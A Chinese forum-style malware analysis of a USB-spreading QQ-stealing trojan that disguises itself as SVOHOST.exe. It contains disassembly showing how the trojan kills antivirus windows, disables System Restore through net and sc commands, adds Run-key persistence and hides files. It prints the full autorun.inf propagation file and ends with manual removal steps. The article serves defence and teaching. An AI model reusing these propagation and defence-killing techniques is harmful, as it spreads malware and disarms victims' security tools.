

# 别让 MP3 黑走你的 QQ----对一个病毒形式的 QQ 木马分析 【原创】

> 原文：`www.pediy.com/kssd/pediy08/pediy8-303.htm`

别让 MP3 黑走你的 QQ

--------- 对一个病毒形式的 QQ 木马分析

文/图 混世魔王 QQ：26836659

MSN: hsmw26836659@hotmail.com

BLOG: http://26836659.blogcn.com

为了提高电脑的那点响应速度，一直都很吝啬安装杂七杂八的软件，包括杀毒软件.最多也就一个月来一次.（小编汗！一个月来一次，什么啊？）汗？什么啊？一个月来一次系统重做啊.

这次系统重做后，居然发现可意进程。不会是中毒了吧。我就去了一下微软的 `UP Date` 升级补丁。虽然现在挂马的很多，但是也没有 NB 到微软的也挂上了吧.看了看 `IE`，给插入了个 `winscok.dll`，还弹出个视频聊天室的网站。得分析分析原因.

找到文件路径，`DIR` 还不出来，只有 `DIR /A` 看来是系统文件。

找到文件，复制不出来，设置显示系统文件也显示不出来。郁闷到安全模式下。

来个 `ATTRIB –A –R –H –S` 把他的系统，隐藏等属性都给去了。在来 `DIR` 就可以看到我们的小马了。



用 `PEID` 查壳，是 `FSG2.0` 的壳，现在很多木马加这个壳。压缩效果也不错，我脱壳后程序 `34K` 变了 `144K.`，压缩比例 `4` 倍。这是后话，本来打算手脱的，但是这个壳修复比较麻烦，本人对 `PE` 认识欠佳，于是谷哥求助。

`RIF` 的牛人做了个专门的 `UnFSG`，就是脱壳工具。只要把加壳的程序载入进去就可以轻松的脱壳，简直是秒杀。

程序脱出来后 `PEID` 依然是显示 `yoda's Protector v1.02 (.dll,.ocx) --> Ashkbiz Danehkar \*`，我还以为是壳中有壳。这个壳类似与仙剑的壳，本来打算 `OD` 载入手脱，载入后发现程序已经无壳了。是由 `Delph` 编写。

那我们就来分析分析这个病毒性质的小马吧。先看看他的一些运行原理和机制。

```
00408DF4  >/$  55             PUSH EBP
00408DF5  |.   8BEC          MOV EBP,ESP
00408DF7  |.   B9 07000000   MOV ECX,7
00408DFC  |>   6A 00         /PUSH 0
00408DFE  |.   6A 00         |PUSH 0
00408E00  |.   49            |DEC ECX
00408E01  |.^ 75 F9         \JNZ SHORT SVOHOST.00408DFC
00408E03  |.   51            PUSH ECX
00408E04  |.   53            PUSH EBX
00408E05  |.   56            PUSH ESI
00408E06  |.   B8 648D4000   MOV EAX,SVOHOST.00408D64
00408E0B  |.   E8 6CB4FFFF   CALL SVOHOST.0040427C
00408E10  |.   33C0          XOR EAX,EAX
00408E12  |.   55            PUSH EBP
00408E13  |.   68 B2904000   PUSH SVOHOST.004090B2
00408E18  |.   64:FF30       PUSH DWORD PTR FS:[EAX]
00408E1B  |.   64:8920       MOV DWORD PTR FS:[EAX],ESP
00408E1E  |.   68 C0904000   PUSH SVOHOST.004090C0            ; /Title = "dqhx"
00408E23  |.   68 C0904000   PUSH SVOHOST.004090C0            ; |Class = "dqhx"
00408E28  |.   E8 7BB6FFFF   CALL <JMP.&user32.FindWindowA>            ; \FindWindowA
00408E2D  |.   85C0          TEST EAX,EAX              //比较是否已经运行
00408E2F  |.   74 36         JE SHORT SVOHOST.00408E67   //没有运行跳
```

程序的开头调用 `FindWindowA` 函数比较 `Title = "dqhx"` 来判断木马程序是否运行，如果 `TEST EAX,EAX` 相等折表示已运行。也就是你中木马了.

```
00408E31  |.   6A 00         PUSH 0                   ; /lParam = 0
00408E33  |.   6A 00         PUSH 0                    ; |wParam = 0
00408E35  |.   6A 10         PUSH 10                   ; |Message = WM_CLOSE
00408E37  |.   68 C0904000   PUSH SVOHOST.004090C0        ; |/dqhx
00408E3C  |.   68 C0904000   PUSH SVOHOST.004090C0        ; ||dqhx
00408E41  |.   E8 62B6FFFF   CALL <JMP.&user32.FindWindowA>
00408E46  |.   50            PUSH EAX                  ; |hWnd
00408E47  |.   E8 BCB6FFFF   CALL <JMP.&user32.SendMessageA>
```

`SendMessage` 必须等待其他程序处理消息后才返回，继续执行

```
00408E4C  |.   6A 00         PUSH 0                  ; /lParam = 0
00408E4E  |.   6A 01         PUSH 1                   ; |wParam = 1
00408E50  |.   6A 12         PUSH 12                  ; |Message = WM_QUIT
00408E52  |.   68 C0904000   PUSH SVOHOST.004090C0             ; |/dqhx
00408E57  |.   68 C0904000   PUSH SVOHOST.004090C0             ; ||dqhx
00408E5C  |.   E8 47B6FFFF   CALL <JMP.&user32.FindWindowA>
00408E61  |.   50            PUSH EAX                       ; |hWnd = NULL
00408E62  |.   E8 89B6FFFF   CALL <JMP.&user32.PostMessageA>
```

`PostMessage` 把消息放入队列，不管其他程序是否处理都返回，然后继续执行

```
00408E95  |.   BA E4904000   MOV EDX,SVOHOST.004090E4    //文件名 ASCII "SVOHOST.exe"
00408E9A  |.   E8 89ADFFFF   CALL SVOHOST.00403C28
00403C28   $  85D2          TEST EDX,EDX
00403C2A   .  74 3F         JE SHORT SVOHOST.00403C6B
00408EA7  |.   50            PUSH EAX      //我机器的程序路径 |FileName = "C:\windows\system32\SVOHOST.exe"
00408EA8  |.   E8 A3B5FFFF   CALL <JMP.&kernel32.SetFileAttributesA>  ; \SetFileAttributesA 设置文件属性+A+H+R
00408EBD  |.   BA F8904000   MOV EDX,SVOHOST.004090F8                   ; ASCII "winscok.dll"//插入
00408EAD  |.   68 80000000   PUSH 80
00408EB2  |.   8D45 E8       LEA EAX,DWORD PTR SS:[EBP-18]
00408EB5  |.   E8 DEC1FFFF   CALL SVOHOST.00405098
00408EBA  |.   8D45 E8       LEA EAX,DWORD PTR SS:[EBP-18]
00408EBD  |.   BA F8904000   MOV EDX,SVOHOST.004090F8      ; winscok.dll
00408EC2  |.   E8 61ADFFFF   CALL SVOHOST.00403C28
00408EC7  |.   8B45 E8       MOV EAX,DWORD PTR SS:[EBP-18]
00408ECA  |.   E8 49AFFFFF   CALL SVOHOST.00403E18
00408ECF  |.   50            PUSH EAX   //EAX = "C:\windows\system32\winscok.dll"
00408ED0  |.   E8 7BB5FFFF   CALL <JMP.&kernel32.SetFileAttributesA>  ; \SetFileAttributesA 设置文件属性+A+H+R
00408ED5  |.   A1 1CA14000   MOV EAX,DWORD PTR DS:[40A11C]
00408EDA  |.   BA 04010000   MOV EDX,104
00408EDF  |.   E8 5CB0FFFF   CALL SVOHOST.00403F40
00408EE4  |.   68 04010000   PUSH 104
00408EE9  |.   A1 1CA14000   MOV EAX,DWORD PTR DS:[40A11C]
00408EEE  |.   8B00          MOV EAX,DWORD PTR DS:[EAX]
00408EF0  |.   E8 23AFFFFF   CALL SVOHOST.00403E18
00408EF5  |.   50            PUSH EAX                            ; |PathBuffer //EAX 程序路径
00408EF6  |.   A1 00B74000   MOV EAX,DWORD PTR DS:[40B700]       ; |
00408EFB  |.   50            PUSH EAX        ; |hModule => 00400000 (SVOHOST)
00408EFC  |.   E8 FFB4FFFF   CALL <JMP.&kernel32.GetModuleFileNameA>
```

/获取文件运行的路径我电脑是 "D:\Fuck You Too\SVOHOST.exe"

```
00408F01  |.   8BD0          MOV EDX,EAX
00408F03  |.   A1 1CA14000   MOV EAX,DWORD PTR DS:[40A11C]
00408F08  |.   E8 33B0FFFF   CALL SVOHOST.00403F40
00408F0D  |.   8D45 E4       LEA EAX,DWORD PTR SS:[EBP-1C]
00408F10  |.   E8 83C1FFFF   CALL SVOHOST.00405098
00408F15  |.   8D45 E4       LEA EAX,DWORD PTR SS:[EBP-1C]
00408F18  |.   BA E4904000   MOV EDX,SVOHOST.004090E4           ; ASCII "SVOHOST.exe"
00408F1D  |.   E8 06ADFFFF   CALL SVOHOST.00403C28
00408F22  |.   8B45 E4       MOV EAX,DWORD PTR SS:[EBP-1C]
00408F25  |.   E8 EEAEFFFF   CALL SVOHOST.00403E18
00408F2A  |.   50            PUSH EAX                            ; /FileName
00408F2B  |.   E8 80B4FFFF   CALL <JMP.&kernel32.DeleteFileA>  ; \DeleteFileA  //删除
00408F30  |.   6A 00         PUSH 0
00408F32  |.   8D45 E0       LEA EAX,DWORD PTR SS:[EBP-20]
00408F35  |.   E8 5EC1FFFF   CALL SVOHOST.00405098
00408F3A  |.   8D45 E0       LEA EAX,DWORD PTR SS:[EBP-20]
00408F3D  |.   BA E4904000   MOV EDX,SVOHOST.004090E4           ; ASCII "SVOHOST.exe"
00408F42  |.   E8 E1ACFFFF   CALL SVOHOST.00403C28
00408F47  |.   8B45 E0       MOV EAX,DWORD PTR SS:[EBP-20]
00408F4A  |.   E8 C9AEFFFF   CALL SVOHOST.00403E18
00408F4F  |.   50            PUSH EAX
00408F50  |.   A1 1CA14000   MOV EAX,DWORD PTR DS:[40A11C]
00408F55  |.   8B00          MOV EAX,DWORD PTR DS:[EAX]
00408F57  |.   E8 BCAEFFFF   CALL SVOHOST.00403E18
00408F5C  |.   50            PUSH EAX                            ; |ExistingFileName
00408F5D  |.   E8 0EB4FFFF   CALL <JMP.&kernel32.CopyFileA>
00408F62  |.   8D55 DC       LEA EDX,DWORD PTR SS:[EBP-24]
00408F65  |.   A1 1CA14000   MOV EAX,DWORD PTR DS:[40A11C]
00408F6A  |.   8B00          MOV EAX,DWORD PTR DS:[EAX]
00408F6C  |.   E8 A3C0FFFF   CALL SVOHOST.00405014
00408F71  |.   8B45 DC       MOV EAX,DWORD PTR SS:[EBP-24]
00408F74  |.   50            PUSH EAX
00408F75  |.   8D45 D4       LEA EAX,DWORD PTR SS:[EBP-2C]
00408F78  |.   E8 1BC1FFFF   CALL SVOHOST.00405098
00408F7D  |.   8D45 D4       LEA EAX,DWORD PTR SS:[EBP-2C]
00408F80  |.   BA E4904000   MOV EDX,SVOHOST.004090E4           ; ASCII "SVOHOST.exe"
00408F85  |.   E8 9EACFFFF   CALL SVOHOST.00403C28
```


00408F8A `|.` `8B45 D4` `MOV EAX,DWORD PTR SS:\[EBP-2C\]`

00408F8D `|.` `8D55 D8` `LEA EDX,DWORD PTR SS:\[EBP-28\]`

00408F90 `|.` `E8 7FC0FFFF` `CALL SVOHOST.00405014`

//这里 `CALL` 调用 `CharUpperBuffA`，`EAX` 的路径是`"C:\\windows\\system32\\SVOHOST.exe"`了.

00408F95 `|.` `8B55 D8` `MOV EDX,DWORD PTR SS:\[EBP-28\]`

00408F98 `|.` `58` `POP EAX`

00408F99 `|.` `E8 C6ADFFFF` `CALL SVOHOST.00403D64`

00408F9E `|.` `74 44` `JE SHORT SVOHOST.00408FE4`

00408FA0 `|.` `E8 13BDFFFF` `CALL SVOHOST.00404CB8`

00408FA5 `|.` `E8 BAD8FFFF` `CALL SVOHOST.00406864`

00408FAA `|.` `6A 01` `PUSH 1`

00408FAC `|.` `6A 00` `PUSH 0`

00408FAE `|.` `6A 00` `PUSH 0`

00408FB0 `|.` `8D45 D0` `LEA EAX,DWORD PTR SS:\[EBP-30\]`

00408FB3 `|.` `E8 E0C0FFFF` `CALL SVOHOST.00405098`

00408FB8 `|.` `8D45 D0` `LEA EAX,DWORD PTR SS:\[EBP-30\]`

00408FBB `|.` `BA E4904000` `MOV EDX,SVOHOST.004090E4` ; `ASCII "SVOHOST.exe"`

00408FC0 `|.` `E8 63ACFFFF` `CALL SVOHOST.00403C28`

00408FC5 `|.` `8B45 D0` `MOV EAX,DWORD PTR SS:\[EBP-30\]`

00408FC8 `|.` `E8 4BAEFFFF` `CALL SVOHOST.00403E18`

00408FCD `|.` `50` `PUSH EAX` ; `|FileName = "C:\\windows\\system32\\SVOHOST.exe"`

00408FCE `|.` `68 04914000` `PUSH SVOHOST.00409104` ; `|Operation = "open"`

00408FD3 `|.` `6A 00` `PUSH 0` ; `|hWnd = NULL`

00408FD5 `|.` `E8 A6B6FFFF` `CALL SVOHOST.00404680`

`ShellExecuteA` 运行 `C:\\windows\\system32\\SVOHOST.exe` 这个文件，和系统文件 `SVCHOST.EXE` 就差一个字.但是运行里面是可以看的到的。

00408FDA `|.` `E8 E9E0FFFF` `CALL SVOHOST.004070C8`

00408FDF `|.` `E9 B3000000` `JMP SVOHOST.00409097`

00409097 `|>` `33C0` `XOR EAX,EAX` //清除 `EAX` 的路径了

00405F9E `|.` `50` `|PUSH EAX` ; `/RootPathName` //磁盘容量

00405F9F `|.` `E8 4CE4FFFF` `|CALL <JMP.&kernel32.GetDriveTypeA>` ; `\\GetDriveTypeA` //获取驱动盘

00405FA4 `|.` `83F8 02` `|CMP EAX,2` //判断分区数

00405FA7 `|.` `0F85 50020000` `|JNZ SVOHOST.004061FD`

00405FAD `|.` `8D45 F0` `|LEA EAX,DWORD PTR SS:\[EBP-10\]`

00405FB0 `|.` `B9 44624000` `|MOV ECX,SVOHOST.00406244` // 生成 `autorun.inf` 文件

00405FB5 `|.` `8B55 FC` `|MOV EDX,DWORD PTR SS:\[EBP-4\]`

00405FB8 `|.` `E8 AFDCFFFF` `|CALL SVOHOST.00403C6C`

00405FBD `|.` `8B45 F0` `|MOV EAX,DWORD PTR SS:\[EBP-10\]`

00405FC0 `|.` `E8 E3ECFFFF` `|CALL SVOHOST.00404CA8`

00405FC5 `|.` `3C 01` `|CMP AL,1`

00405FC7 `|.` `75 61` `|JNZ SHORT SVOHOST.0040602A`

00405FC9 `|.` `8D45 EC` `|LEA EAX,DWORD PTR SS:\[EBP-14\]`

00405FCC `|.` `B9 5C624000` `|MOV ECX,SVOHOST.0040625C` // 生成 `sxs.exe` 文件

00405FD1 `|.` `8B55 FC` `|MOV EDX,DWORD PTR SS:\[EBP-4\]`

00405FD4 `|.` `E8 93DCFFFF` `|CALL SVOHOST.00403C6C`

00405FD9 `|.` `8B45 EC` `|MOV EAX,DWORD PTR SS:\[EBP-14\]`

00405FDC `|.` `E8 C7ECFFFF` `|CALL SVOHOST.00404CA8`

00405FE1 `|.` `3C 01` `|CMP AL,1`

00405FE3 `|.` `75 45` `|JNZ SHORT SVOHOST.0040602A`

在其他分区生成名为 `autorun.inf` 和 `sxs.exe` 二个同级文件.文件属性为`+A +H +S`

0040616F `|.` `8BC6` `|MOV EAX,ESI`

00406171 `|.` `BA 84624000` `|MOV EDX,SVOHOST.00406284`

; `open=sxs.exe`

00406176 `|.` `E8 29DEFFFF` `|CALL SVOHOST.00403FA4`

0040617B `|.` `E8 40D0FFFF` `|CALL SVOHOST.004031C0`

00406180 `|.` `E8 DBC3FFFF` `|CALL SVOHOST.00402560`

00406185 `|.` `8BC6` `|MOV EAX,ESI`

00406187 `|.` `BA 9C624000` `|MOV EDX,SVOHOST.0040629C`

; `shellexecute=sxs.exe`

0040618C `|.` `E8 13DEFFFF` `|CALL SVOHOST.00403FA4`

00406191 `|.` `E8 2AD0FFFF` `|CALL SVOHOST.004031C0`

00406196 `|.` `E8 C5C3FFFF` `|CALL SVOHOST.00402560`

0040619B `|.` `8BC6` `|MOV EAX,ESI`

0040619D `|.` `BA BC624000` `|MOV EDX,SVOHOST.004062BC` ; `shell\\auto\\command=sxs.exe`

004061A2 `|.` `E8 FDDDFFFF` `|CALL SVOHOST.00403FA4`

004061A7 `|.` `E8 14D0FFFF` `|CALL SVOHOST.004031C0`

004061AC `|.` `E8 AFC3FFFF` `|CALL SVOHOST.00402560`

004061B1 `|.` `8BC6` `|MOV EAX,ESI`

004061B3 `|.` `E8 F0C9FFFF` `|CALL SVOHOST.00402BA8`

004061B8 `|.` `E8 A3C3FFFF` `|CALL SVOHOST.00402560`

004061BD `|.` `6A 06` `|PUSH 6`

004061BF `|.` `8D45 C4` `|LEA EAX,DWORD PTR SS:\[EBP-3C\]`

004061C2 `|.` `B9 5C624000` `|MOV ECX,SVOHOST.0040625C` ; `\\sxs.exe`

004061C7 `|.` `8B55 FC` `|MOV EDX,DWORD PTR SS:\[EBP-4\]`

来看看 `autorun.inf` 的内容，为达到自运行的目的不折手段。

```
[AutoRun]

open=sxs.exe

shellexecute=sxs.exe

shell\\Auto\\command=sxs.exe
```

系统重做打开其他盘又感染了.郁闷，怎么现在病毒木马都这样！碰到几个了.

00406DBF `|.` `B8 38704000` `|MOV EAX,SVOHOST.00407038` ; `qqkav`

00406DC4 `|.` `E8 2FD1FFFF` `|CALL SVOHOST.00403EF8`

00406DC9 `|.` `85C0` `|TEST EAX,EAX`

00406DCB `|.` `74 0C` `|JE SHORT SVOHOST.00406DD9`

00406DCD `|.` `6A 00` `|PUSH 0` ; `/lParam = 0`

00406DCF `|.` `6A 00` `|PUSH 0` ; `|wParam = 0`

00406DD1 `|.` `6A 12` `|PUSH 12` ; `|Message = WM\_QUIT`

00406DD3 `|.` `53` `|PUSH EBX` ; `|hWnd`

00406DD4 `|.` `E8 17D7FFFF` `|CALL <JMP.&user32.PostMessageA>` ; `\\PostMessageA`

00406DD9 `|>` `85DB` `|TEST EBX,EBX`

00406DDB `|.^` `75 BA` `\\JNZ SHORT SVOHOST.00406D97`

00406DDD `|.` `E8 DED6FFFF` `CALL <JMP.&user32.GetDesktopWindow>` ; `\[GetDesktopWindow`

00406DE2 `|.` `8BF0` `MOV ESI,EAX`

00406DE4 `|>` `6A 00` `/PUSH 0` ; `/Title = NULL`

00406DE6 `|.` `6A 00` `|PUSH 0` ; `|Class = 0`

00406DE8 `|.` `53` `|PUSH EBX` ; `|hAfterWnd`

00406DE9 `|.` `56` `|PUSH ESI` ; `|hParent`

00406DEA `|.` `E8 C1D6FFFF` `|CALL <JMP.&user32.FindWindowExA>` ; `\\FindWindowExA`

00406DEF `|.` `8BD8` `|MOV EBX,EAX`

00406DF1 `|.` `6A 65` `|PUSH 65` ; `/Count = 65 (101.)`

00406DF3 `|.` `57` `|PUSH EDI` ; `|Buffer`

00406DF4 `|.` `53` `|PUSH EBX` ; `|hWnd`

00406DF5 `|.` `E8 D6D6FFFF` `|CALL <JMP.&user32.GetWindowTextA>` ; `\\GetWindowTextA`

00406DFA `|.` `8D45 90` `|LEA EAX,DWORD PTR SS:\[EBP-70\]`

00406DFD `|.` `8BD7` `|MOV EDX,EDI`

00406DFF `|.` `B9 65000000` `|MOV ECX,65`

00406E04 `|.` `E8 FFCDFFFF` `|CALL SVOHOST.00403C08`

00406E09 `|.` `8B55 90` `|MOV EDX,DWORD PTR SS:\[EBP-70\]`

00406E0C `|.` `B8 48704000` `|MOV EAX,SVOHOST.00407048` ; `防火墙`

00406E11 `|.` `E8 E2D0FFFF` `|CALL SVOHOST.00403EF8`

00406E16 `|.` `85C0` `|TEST EAX,EAX`

00406E18 `|.` `74 0C` `|JE SHORT SVOHOST.00406E26`

00406E1A `|.` `6A 00` `|PUSH 0` ; `/lParam = 0`

00406E1C `|.` `6A 00` `|PUSH 0` ; `|wParam = 0`

00406E1E `|.` `6A 12` `|PUSH 12` ; `|Message = WM\_QUIT`

00406E20 `|.` `53` `|PUSH EBX` ; `|hWnd`

00406E21 `|.` `E8 CAD6FFFF` `|CALL <JMP.&user32.PostMessageA>` ; `\\PostMessageA`

00406E26 `|>` `85DB` `|TEST EBX,EBX`

00406E28 `|.^` `75 BA` `\\JNZ SHORT SVOHOST.00406DE4`

00406E2A `|.` `E8 91D6FFFF` `CALL <JMP.&user32.GetDesktopWindow>` ; `\[GetDesktopWindow`

00406E2F `|.` `8BF0` `MOV ESI,EAX`

00406E31 `|>` `6A 00` `/PUSH 0` ; `/Title = NULL`

00406E33 `|.` `6A 00` `|PUSH 0` ; `|Class = 0`

00406E35 `|.` `53` `|PUSH EBX` ; `|hAfterWnd`

00406E36 `|.` `56` `|PUSH ESI` ; `|hParent`

00406E37 `|.` `E8 74D6FFFF` `|CALL <JMP.&user32.FindWindowExA>`

00406E3C `|.` `8BD8` `|MOV EBX,EAX`

00406E3E `|.` `6A 65` `|PUSH 65` ; `/Count = 65 (101.)`


## 00406E40 - 00406E65

```
00406E40  .  57             |PUSH EDI                ; |Buffer  
00406E41  .  53             |PUSH EBX                ; |hWnd  
00406E42  .  E8 89D6FFFF    |CALL <JMP.&user32.GetWindowTextA>     
00406E47  .  8D45 8C        |LEA EAX,DWORD PTR SS:[EBP-74]  
00406E4A  .  8BD7           |MOV EDX,EDI  
00406E4C  .  B9 65000000    |MOV ECX,65  
00406E51  .  E8 B2CDFFFF    |CALL SVOHOST.00403C08  
00406E56  .  8B55 8C        |MOV EDX,DWORD PTR SS:[EBP-74]  
00406E59  .  B8 58704000    |MOV EAX,SVOHOST.00407058        ;  网镖  
00406E5E  .  E8 95D0FFFF    |CALL SVOHOST.00403EF8  
00406E63  .  85C0           |TEST EAX,EAX  
00406E65  .  74 0C          |JE SHORT SVOHOST.00406E73  
```

......略一段

## 00406D82 - 00407004

从 `00406D82` 到 `00407004` 通过 `FindWindowExA` 函数寻找的窗口句柄，关闭窗口名为下列的应用程序 `QQKav.防火墙.网镖.杀毒.病毒.木马.恶意.QQAV.噬菌体.这些保护程序.`

```
0040711F   .  A1 F4A04000    MOV EAX,DWORD PTR DS:[40A0F4]  
00407124   .  8B00           MOV EAX,DWORD PTR DS:[EAX]  
00407126   .  E8 C5DBFFFF    CALL SVOHOST.00404CF0  
0040712B   .  69C0 E8030000  IMUL EAX,EAX,3E8  
00407131   .  50             PUSH EAX                    ; /Timeout  
00407132   .  E8 29D3FFFF    CALL <JMP.&kernel32.Sleep>          ; \Sleep  
00407137   .  B8 68714000    MOV EAX,SVOHOST.00407168      ;  qq.exe  
0040713C   .  E8 53D9FFFF    CALL SVOHOST.00404A94  
```

我们可怜的 `QQ` 也在其中，在设置的时间内会关闭 `QQ`. 还好，我用的是 `QQ` 他妈 `TM`.

## 00407291 - 生成注册表文件

```
00407291  .  68 287A4000    PUSH SVOHOST.00407A28            
 
 //生成一个 noruns.reg 文件，看样子要写注册表了 

00407296  .  8D45 F4        LEA EAX,DWORD PTR SS:[EBP-C]  
00407299  .  BA 03000000    MOV EDX,3  
0040729E  .  E8 3DCAFFFF    CALL SVOHOST.00403CE0  
004072A3  .  8B45 F4        MOV EAX,DWORD PTR SS:[EBP-C]  
004072A6  .  E8 6DCBFFFF    CALL SVOHOST.00403E18  
004072AB  .  50             PUSH EAX                    ; |Parameters  
004072AC  .  68 D87A4000    PUSH SVOHOST.00407AD8            ; |regedit.exeopen  
004072B1  .  68 E47A4000    PUSH SVOHOST.00407AE4       ; |open  
004072B6  .  6A 00          PUSH 0                    ; |hWnd = NULL  
004072B8  .  E8 C3D3FFFF    CALL SVOHOST.00404680      ; \ShellExecuteA  
004072BD  .  6A 00          PUSH 0                  ; /IsShown = 0  
004072BF  .  6A 00          PUSH 0                 ; |DefDir = NULL  
004072C1  .  68 EC7A4000    PUSH SVOHOST.00407AEC        ; |stop srservice  
004072C6  .  68 FC7A4000    PUSH SVOHOST.00407AFC            ; |net.execonfig srservice start= disabled  
004072CB  .  68 E47A4000    PUSH SVOHOST.00407AE4        ; |open  
004072D0  .  6A 00          PUSH 0                  ; |hWnd = NULL  
004072D2  .  E8 A9D3FFFF    CALL SVOHOST.00404680       ; \ShellExecuteA  
004072D7  .  6A 00          PUSH 0                  ; /IsShown = 0  
004072D9  .  6A 00          PUSH 0                  ; |DefDir = NULL  
004072DB  .  68 047B4000    PUSH SVOHOST.00407B04            
 ; |config srservice start= disabled  
004072E0  .  68 287B4000    PUSH SVOHOST.00407B28        ; |sc.exe  
004072E5  .  68 E47A4000    PUSH SVOHOST.00407AE4         ; |open  
004072EA  .  6A 00          PUSH 0                  ; |hWnd = NULL  
004072EC  .  E8 8FD3FFFF    CALL SVOHOST.00404680          ; \ShellExecuteA  
```

......略一段

## 00407689 - 查找窗口

```
00407689  .  68 9C7E4000    PUSH SVOHOST.00407E9C      ; /Title = "瑞星提示"  
0040768E  .  68 A87E4000    PUSH SVOHOST.00407EA8      ; |Class = "#32770"  
00407693  .  E8 10CEFFFF    CALL <JMP.&user32.FindWindowA>         ; \FindWindowA  
00407698  .  68 B07E4000    PUSH SVOHOST.00407EB0       ; /Title = "是(&Y)"  
0040769D  .  68 B87E4000    PUSH SVOHOST.00407EB8      ; |Class = "Button"  
004076A2  .  6A 00          PUSH 0                  ; |hAfterWnd = NULL  
004076A4  .  50             PUSH EAX                  ; |hParent  
004076A5  .  E8 06CEFFFF    CALL <JMP.&user32.FindWindowExA>        ; \FindWindowExA  
```

......略一段

## 00407291 - 00407893

从 `00407291` 到 `00407893` 这样长的一断代码，都是杀毒，防火墙，做斗争，我就不清楚这些系统命令 `Sc.EXE` `Net.exe` `net1.exe` 也加入到这个木马封杀的行列.

## 004078FB - 添加启动项与隐藏文件

```
004078FB  .  6A 01          PUSH 1  
004078FD  .  B9 9C824000    MOV ECX,SVOHOST.0040829C                ;  ASCII "SoundMam"  
00407902  .  BA A8824000    MOV EDX,SVOHOST.004082A8   //添加启动项  
```

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
`"SoundMam" = "%system%\SVOHOST.exe"`

```
00407907  .  B8 02000080    MOV EAX,80000002  
0040790C  .  E8 0BD8FFFF    CALL SVOHOST.0040511C  
00407911  .  68 D8824000    PUSH SVOHOST.004082D8  
00407916  .  6A 01          PUSH 1  
00407918  .  B9 DC824000    MOV ECX,SVOHOST.004082DC                ;  ASCII "CheckedValue"  
0040791D  .  BA EC824000    MOV EDX,SVOHOST.004082EC                ;  ASCII "software\microsoft\windows\currentversion\explorer\advanced\folder\hidden\showall"  
//隐藏的系统文件  
00407922  .  B8 02000080    MOV EAX,80000002  
00407927  .  E8 F0D7FFFF    CALL SVOHOST.0040511C  
0040792C  .  8D45 E0        LEA EAX,DWORD PTR SS:[EBP-20]  
0040792F  .  E8 64D7FFFF    CALL SVOHOST.00405098  
00407934  .  8D45 E0        LEA EAX,DWORD PTR SS:[EBP-20]  
```

木马的主程序的大体功能和运行机制就分析到这里，还有一个插入到 `IE` 进程的 `winscok.dll` 文件，我这里就跳过了。无非就是刷流量。

```html
<HTML><HEAD><TITLE>.</TITLE>  

<meta http-equiv="refresh" content="1; url=http://www.xxxx.net"> ‘地址用 xxx 代替了  

</HEAD><BODY>  

<script src='http://s47.cnzz.com/stat.php?id=223697&web_id=223697' language='JavaScript' charset='gb2312'></script>   ’站长站的流量统计  

</BODY></HTML>
```

不过这马还有盗 `QQ`，哎。什么世道啊。

## 手工解决办法

分析过程就不做总结了。想必你一路看完下来也理解了。我们直接给出手工解决的办法，多动手，多学习。让你遇到这个木马不会那么头疼。毕竟做了系统，不小心又是会感染的。

**一步：进入安全模式**

我们先来显示出被隐藏的系统文件的 `regedit`

`HKEY_LOCAL_MACHINE\Software\Microsoft\windows\CurrentVersion\explorer\Advanced\Folder\Hidden\SHOWALL`，

将 `CheckedValue` 键值修改为 `1`

这里要注意，病毒会把本来有效的 `DWORD` 值 `CheckedValue` 删除掉，新建了一个无效的字符串值 `CheckedValue`，类型为 `REG_SZ`，并且把键值改为 `0`！我们将这个改为 `1` 是毫无作用的。没有看清楚 `CheckedValue` 后面的类型，正确的是“`RED_DWORD`”而不是“`REG_SZ`”。

**二步：然后在来解决注册启动项**

`HKEY_LOCAL_MACHINE>SOFTWARE>Microsoft>Windows>CurrentVersion>Run`

`SVOHOST.exe`

**三步：结束进程**

`Ctrl + Alt + Del` 任务管理器，在进程中查找 `SVOHOST`（不是 `SVCHOST`，相差一个字母），有的话就将它结束掉（并不是所有的系统都显示有这个进程，没有的就略过此步）。

**四步：删除系统目录的二个文件**

删除 `SVOHOST.exe` 和 `winscok.dll` 文件。我们可以在命令执行

```
DEL C:\windows\system32\SVOHOST.exe /S  
DEL C:\windows\system32\winscok.dll /S  
```

如果查找不到文件，记得把他的系统属性去掉。

**五步：解决其他盘的遗留问题**

我这里已经 `D` 盘为例，其他分区同样超做。`CMD` 执行命令

```
attrib -h -r -s d:\sxs.exe  

del d:\sxs.exe  

attrib -h -s -r d:\autorun.inf  

del d:\autorun.inf           
```

解决完小马，我们来追查源头！如果访问其他分区目录，木马就会感染你的系统和其他分区，不是通过局域网，这种情况的传播途径只有 `USB`，不知道大家注意没有，使用 `U` 盘或者 `MP3`，是直接运行. 那！我们的小马就开始他的传播了…..

`MM`：怪不的我的 `MP3` 会提示有毒……….

（完）

`4dd466d0e1e0cc123afbe504da2462ca`
